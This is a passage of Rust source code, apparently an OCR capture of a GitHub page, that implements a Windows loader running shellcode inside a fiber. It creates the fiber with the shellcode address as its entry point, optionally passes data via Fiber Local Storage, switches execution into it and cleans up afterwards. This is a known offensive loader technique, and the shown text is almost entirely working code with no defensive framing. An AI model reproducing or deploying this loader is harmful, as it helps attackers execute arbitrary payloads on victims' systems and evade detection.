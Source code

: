 ```rust
            // Create a new fiber that will execute our shellcode
            let shellcode_fiber = CreateFiber(
                0, // Use default stack size
                mem::transmute(shellcode_addr),
                parameter.unwrap_or(null()),
            );
            
            if shellcode_fiber.is_null() {
                // Convert back to thread to clean up
                ConvertFiberToThread();
                return Err(format!("CreateFiber failed with error: {}", GetLastError()));
            }
            
            Ok(Self {
                shellcode_fiber,
                main_fiber,
                fls_index: None,
            })
        }
        
        // Alternative initialization with Fiber Local Storage for data passing
        pub unsafe fn new_with_fls(shellcode_addr: *mut c_void, data: *mut c_void) -> Result<Self, String> {
            let fiber = Self::new(shellcode_addr, None)?;
            
            // Allocate FLS index
            let fls_index = FlsAlloc(null());
            if fls_index == 0xFFFFFFFF {
                return Err(format!("FlsAlloc failed with error: {}", GetLastError()));
            }
            
            // Store data in FLS
            if FlsSetValue(fls_index, data) == 0 {
                FlsFree(fls_index);
                return Err(format!("FlsSetValue failed with error: {}", GetLastError()));
            }
            
            Ok(Self {
                shellcode_fiber: fiber.shellcode_fiber,
                main_fiber: fiber.main_fiber,
                fls_index: Some(fls_index),
            })
        }
        
        // Execute the fiber
        pub unsafe fn execute(&self) -> Result<(), String> {
            // Switch execution to the shellcode fiber
            SwitchToFiber(self.shellcode_fiber);
            Ok(())
        }
    }
    
    impl Drop for Fiber {
        fn drop(&mut self) {
            unsafe {
                // Clean up FLS if used
                if let Some(index) = self.fls_index {
                    FlsFree(index);
                }
                
                // Delete shellcode fiber
                if !self.shellcode_fiber.is_null() {
                    DeleteFiber(self.shellcode_fiber);
```